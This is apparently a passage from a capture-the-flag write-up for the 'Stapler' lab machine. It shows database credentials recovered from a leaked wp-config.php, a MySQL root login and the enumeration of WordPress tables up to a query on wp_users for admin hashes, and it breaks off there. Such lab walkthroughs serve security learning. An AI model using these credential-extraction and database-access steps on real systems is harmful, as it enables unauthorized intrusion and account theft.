 Download the image and use grep to search for string `password`. The exploit extracts the `wp-config.php` file contents as images file.

```text
define('DB_USER', 'root');
define('DB_PASSWORD', 'plbkac')
```

Login to sql server using the credentials and extract wordpress username and hash of an administrative user.

## 3306/tcp - open  mysql - MySQL 5.7.12-0ubuntu1

Login the to sql server using the above extracted credentials.

```sh
naveenj@hackerspace:|01:27|~/proving_grounds/Stapler/files/img$ mysql -u root -pplbkac -h 192.168.208.148
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 9
Server version: 5.7.12-0ubuntu1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| loot               |
| mysql              |
| performance_schema |
| phpmyadmin         |
| proof              |
| sys                |
| wordpress          |
+--------------------+
8 rows in set (0.226 sec)

MySQL [(none)]> use wordpress
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [wordpress]> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
11 rows in set (0.199 sec)

MySQL [wordpress]> select * from wp_users;
```